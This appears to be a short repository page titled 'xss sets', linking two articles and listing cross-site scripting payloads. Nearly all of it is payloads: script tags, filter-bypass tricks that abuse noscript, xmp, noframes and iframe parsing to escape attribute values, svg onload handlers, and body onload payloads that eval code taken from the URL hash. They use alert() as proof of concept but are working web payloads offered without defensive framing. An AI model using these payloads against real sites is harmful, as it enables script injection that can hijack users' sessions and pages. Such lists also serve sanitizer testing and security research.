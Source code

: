 # xss sets
[About Google](https://nosec.org/home/detail/2449.html)
[Xss Sets](https://www.hahwul.com/2019/04/bypass-xss-protection-with-xmp-noscript-etc....html)
```JavaScript
<script>alert(1)</script>
'"><script>alert(1)</script>
<noscript><p title="</noscript><img src=x onerror=alert(1)>">
<noscript><p title="</noscript><svg/onload=alert(1)>">
<xmp><p title="</xmp><svg/onload=alert(1)>">
<noframes><p title="</noframes><svg/onload=alert(1)>">
<iframe><p title="</iframe><svg/onload=alert(1)>">
<iframe style="visibility:hidden"><p title="</iframe><svg/onload=alert(1)>">
<svg onload=alert(document.domain)>

location:
<body/onload=eval(location.hash.slice(1))>#alert(1)
<body/onload=setTimeout(location.hash.substr(1))>#alert(1)

```
